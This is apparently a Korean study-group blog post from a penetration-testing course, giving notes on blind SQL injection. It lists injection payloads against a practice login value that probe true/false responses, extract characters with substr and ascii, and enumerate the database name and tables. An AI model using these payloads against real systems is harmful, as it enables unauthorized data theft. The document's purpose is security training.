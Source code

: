 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq:
    priority:

title: "[WEB HACKING] Blind SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 7주차"

date: 2024-11-28
last_modified_at: 

categories: [SECURITY]
tags: [TIL, WEB, DATABASE, SECURITY]
---
```


3. Blind SQL Injection
    1. 참과 거짓의 응답 차이로 알아낸다.

---

Blind SQL Injection
1. normaltic' and ('1' = '1') and '1' = '1
2. normaltic' and (select pass from member where id = 'normaltic') and '1' = '1

1. sql injection의 포인트를 찾는 것
normaltic' and '1' = '1
normaltic' and '1' = '2
-> 참과 거짓 찾기
-> 조건 ㅈㄴ 후하네 ㅋㅋ
2. select문구 사용가능한지 확인하기
normaltic' and ('1' = '1') and '1' = '1
normaltic' and ('1' = '2') and '1' = '1
normaltic' and ((select 'test') = 'test') and '1' = '1
3. 공격 format
normaltic' and (조건) and '1' = '1

substr('test',1,1) -> t # substr(string, idx, range)
substr((select 'test'), 1, 1) = 't'
normaltic' and (substr((select 'test'), 1, 1) = 't') and '1' = '1

ascii()
ascii(substr((select 'test'), 1, 1)) > 0 # 데이터가 존재하는 지 확인
normaltic' and (ascii(substr((select 'test'), 1, 1)) > 0) and '1' = '1
4. DB
select database()
normaltic' and (ascii(substr((select database()), 1, 1)) > 0) and '1' = '1
normaltic' and (ascii(substr((select database()), 2, 1)) > 0) and '1' = '1
5. Table
select table_name from information_schema.tables where table_schema = '' limit 0, 1

* 글자 개수가 몇 개인지 세는 함수

https://sabarada.tistory.com/49